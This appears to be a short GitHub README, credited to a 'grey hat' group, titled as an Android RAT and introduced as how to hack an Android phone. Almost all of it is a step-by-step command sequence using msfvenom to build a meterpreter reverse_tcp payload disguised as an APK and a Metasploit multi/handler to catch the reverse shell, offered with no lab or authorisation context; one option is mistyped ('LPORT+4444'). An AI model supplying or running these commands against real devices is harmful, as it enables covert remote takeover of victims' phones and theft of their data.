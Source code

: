 # kali_metasploit_rat_for_androd
Collected From Bd Grey Hat Hackers

How to hack android phone using Metasploit.
Commands - 
msfvenom -p android/meterpreter/reverse_tcp LHOST="Your Ip" LPORT+4444 R > main.apk
msfconsole
use multi/handler
set payload android/meterpreter/reverse_tcp
set lhost "your IP"
set lport 4444
exploit
